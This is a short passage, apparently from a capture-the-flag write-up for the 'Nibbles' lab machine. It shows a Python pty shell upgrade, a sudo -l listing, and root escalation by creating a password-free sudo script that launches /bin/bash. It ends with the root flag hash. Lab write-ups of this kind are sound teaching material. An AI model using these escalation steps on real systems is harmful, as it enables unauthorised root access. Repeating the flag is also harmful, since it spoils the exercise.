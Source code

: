 after updating our shell 
python3 -c 'import pty;pty.spawn("/bin/bash")'

running sudo -l 
User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

by making the path /home/nibbler/personal/stuff/monitor.sh 
and just making a monitor.sh file with /bin/bash inside and making it executable we can just run it as sudo and we get a root bash shell 
#rootflag f52c0db4d521092fb04e40d24eea8ebd